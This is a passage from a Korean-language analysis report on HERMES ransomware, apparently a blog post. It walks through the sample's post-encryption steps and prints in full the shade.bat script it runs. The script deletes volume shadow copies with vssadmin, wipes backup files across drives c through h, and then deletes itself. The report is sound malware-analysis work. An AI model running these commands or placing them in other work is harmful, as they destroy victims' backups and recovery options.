 ### ▪ <u>winlogon.exe의 auto run 삭제</u>

모든 파일 암호화가 완료되었다면, **Auto Run에 등록했던 winlogon.exe를 삭제**합니다.

![IMG-HERMES 랜섬웨어 상세 분석 보고서-20241205191054594](../images/2024-12-06-HERMES-Ransomeware-Analysis/IMG-HERMES 랜섬웨어 상세 분석 보고서-20241205191054594.png)

### ▪ <u>shade.bat을 실행하여 volume shadow 삭제</u>

delete_shadow 함수를 호출하여, **shade.bat 파일을 만들고 실행**합니다. 

![IMG-HERMES 랜섬웨어 상세 분석 보고서-20241205191054729](../images/2024-12-06-HERMES-Ransomeware-Analysis/IMG-HERMES 랜섬웨어 상세 분석 보고서-20241205191054729.png)

shade.bat 파일은 **volume shadow를 정리**하는 코드가 존재합니다.

![IMG-HERMES 랜섬웨어 상세 분석 보고서-20241205191054920](../images/2024-12-06-HERMES-Ransomeware-Analysis/IMG-HERMES 랜섬웨어 상세 분석 보고서-20241205191054920.png)

```cmd
vssadmin Delete Shadows /all /quiet
vssadmin resize shadowstorage /for=c: /on=c: /maxsize=401MB
vssadmin resize shadowstorage /for=c: /on=c: /maxsize=unbounded
vssadmin resize shadowstorage /for=d: /on=d: /maxsize=401MB
vssadmin resize shadowstorage /for=d: /on=d: /maxsize=unbounded
vssadmin resize shadowstorage /for=e: /on=e: /maxsize=401MB
vssadmin resize shadowstorage /for=e: /on=e: /maxsize=unbounded
vssadmin resize shadowstorage /for=f: /on=f: /maxsize=401MB
vssadmin resize shadowstorage /for=f: /on=f: /maxsize=unbounded
vssadmin resize shadowstorage /for=g: /on=g: /maxsize=401MB
vssadmin resize shadowstorage /for=g: /on=g: /maxsize=unbounded
vssadmin resize shadowstorage /for=h: /on=h: /maxsize=401MB
vssadmin resize shadowstorage /for=h: /on=h: /maxsize=unbounded
vssadmin Delete Shadows /all /quiet
del /s /f /q c:\\*.VHD c:\\*.bac c:\\*.bak c:\\*.wbcat c:\\*.bkf c:\\Backup*.* c:\\backup*.* c:\\*.set c:\\*.win c:\\*.dsk
del /s /f /q d:\\*.VHD d:\\*.bac d:\\*.bak d:\\*.wbcat d:\\*.bkf d:\\Backup*.* d:\\backup*.* d:\\*.set d:\\*.win d:\\*.dsk
del /s /f /q e:\\*.VHD e:\\*.bac e:\\*.bak e:\\*.wbcat e:\\*.bkf e:\\Backup*.* e:\\backup*.* e:\\*.set e:\\*.win e:\\*.dsk
del /s /f /q f:\\*.VHD f:\\*.bac f:\\*.bak f:\\*.wbcat f:\\*.bkf f:\\Backup*.* f:\\backup*.* f:\\*.set f:\\*.win f:\\*.dsk
del /s /f /q g:\\*.VHD g:\\*.bac g:\\*.bak g:\\*.wbcat g:\\*.bkf g:\\Backup*.* g:\\backup*.* g:\\*.set g:\\*.win g:\\*.dsk
del /s /f /q h:\\*.VHD h:\\*.bac h:\\*.bak h:\\*.wbcat h:\\*.bkf h:\\Backup*.* h:\\backup*.* h:\\*.set h:\\*.win h:\\*.dsk
del %0
```

### ▪ <u>사용자에게 공지</u>
